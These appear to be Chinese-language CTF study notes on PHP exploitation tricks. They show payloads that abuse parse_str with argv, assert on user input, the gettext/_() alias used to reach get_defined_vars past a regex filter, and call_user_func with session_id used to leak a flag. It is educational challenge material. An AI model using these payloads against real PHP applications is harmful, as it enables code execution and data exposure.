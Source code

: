 ```


Payload1：
GET：?a=1+fl0g=flag_give_me  绕过if(!isset($_GET['fl0g']))
POST：fun=parse_str($a[1])

由$_SERVER['argV'][1]为 fl0g=flag_give_me
通过parse_str得 $fl0g=flag_give_me


Payload2：
?$flog=flag_give_me
fun=assert($a[0])
```

^
## **_()函数gettext()函数和get_defined_vars函数**
当php扩展目录下有php_gettext.dll时，_()是一个函数等同gettext()函数。
并且gettext("get_defined_vars");会返会get_defined_vars。
当gettext()函数被调用开启，get_defined_vars()函数可以被使用，返回由所有已定义变量所组成的数组。
```
$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}

Payload：?f1=_&f2=get_defined_vars
```


^
## **a || b && c会先计算哪个？**
在大多数编程语言中，逻辑与（&&）操作符的优先级高于逻辑或（||）操作符。
因此，在表达式 `a || b && c` 中，会先计算 `b && c`，然后根据结果再与 `a` 进行逻辑或运算。



^
## **call_user_func()特性**
正常call_user_func(函数名,参数);
正常call_user_func(函数名); //无参函数

场景1：
```
    session_start();
    $m=$_POST[m];
    $key = '372619038';
    $content = call_user_func($m);
    if(stripos($content, $key)!==FALSE){
        echo $flag;
}
```
这里需要传递一个无参函数，还要能返回值输出包含372619038字符串的。
使用session_id，session_id做函数调用返回的是sessionid值，我们可以在请求中定义。
```
?m=session_id
```